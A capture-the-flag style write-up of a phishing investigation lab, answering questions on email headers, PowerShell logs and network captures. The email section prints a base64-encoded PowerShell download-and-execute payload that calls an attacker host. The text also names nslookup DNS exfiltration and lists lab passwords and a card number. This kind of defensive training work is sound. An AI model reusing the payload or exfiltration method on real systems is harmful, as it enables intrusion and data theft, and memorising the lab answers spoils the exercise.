 # Boogeyman 1

### [Email Analysis] Look at that headers!
- What is the email address used to send the phishing email?<br />
Open the email using thunderbird: <br />
![image](https://github.com/user-attachments/assets/ccb71731-ce1b-42fa-8a8b-762756d3e6fb)<br />
`agriffin@bpakcaging.xyz`
- What is the email address of the victim?<br />`julianne.westcott@hotmail.com`
- What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?<br />
![image](https://github.com/user-attachments/assets/be4d4d7d-7cf2-4033-ac80-73e9699a793c)<br />
`elasticemail.com`
- What is the name of the file inside the encrypted attachment?<br />
Download the attached zip to get the answer: `Invoice_20230103.lnk`
- What is the password of the encrypted attachment?<br /> `Invoice2023!`
- Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?<br />
Extract the .lnk file, open a terminal on the desktop and run `lnkparse Invoice_20230103.lnk`:<br />
`aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`

### [Endpoint Security] Are you sure that’s an invoice?
- What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)<br />
The command that worked for me is `cat powershell.json | jq '{ScriptBlockText}' | grep .xyz`:<br />
![image](https://github.com/user-attachments/assets/d3578725-9c06-49c4-a4da-362b40292b7e)<br />
`cdn.bpakcaging.xyz,files.bpakcaging.xyz`
- What is the name of the enumeration tool downloaded by the attacker?<br />
For this one I looked at the hint and found it on the list of commands run, that can be displayed with `cat powershell.json | jq '{ScriptBlockText}'`<br />
![image](https://github.com/user-attachments/assets/dfe1836c-550b-4773-996d-46a4623dac77)<br />
`seatbelt`
- What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.<br />
The following command will help me answer the following questions: `cat powershell.json | jq '{ScriptBlockText}' | sort | uniq` it prints all the executed commands that are unique. 
`C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite`
- What is the software that uses the file in Q3?<br /> `Microsoft Sticky Notes`
- What is the name of the exfiltrated file?<br />
![image](https://github.com/user-attachments/assets/7bb9db86-e6c1-4150-849d-c5ce8bdd5274)<br />
`protected_data.kdbx`
- What type of file uses the .kdbx file extension?<br />
Needed to google for this one: `keepass`
- What is the encoding used during the exfiltration attempt of the sensitive file?<br />
![image](https://github.com/user-attachments/assets/dc335f6a-27b6-4be8-af3d-2ca271ede19f)<br />
`hex`
- What is the tool used for exfiltration?<br />
`nslookup`

### [Network Traffic Analysis] They got us. Call the bank immediately!
- What software is used by the attacker to host its presumed file/payload server?<br />
We know that the C2 host is `files.bpakcaging.xyz`, So I opened the .pcap file on wireshark and filtered for `http contains "files.bpakcaging.xyz"`, and followed the HTTP stream: <br />
![image](https://github.com/user-attachments/assets/a0e91745-5523-4068-affb-aa9dc5496e3e)<br />
`python`
- What HTTP method is used by the C2 for the output of the commands executed by the attacker?<br /> `POST`
- What is the protocol used during the exfiltration activity?<br /> `dns`
- What is the password of the exfiltrated file?<br /> `%p9^3!lL^Mz47E2GaT^y`
- What is the credit card number stored inside the exfiltrated file?<br /> `4024007128269551`
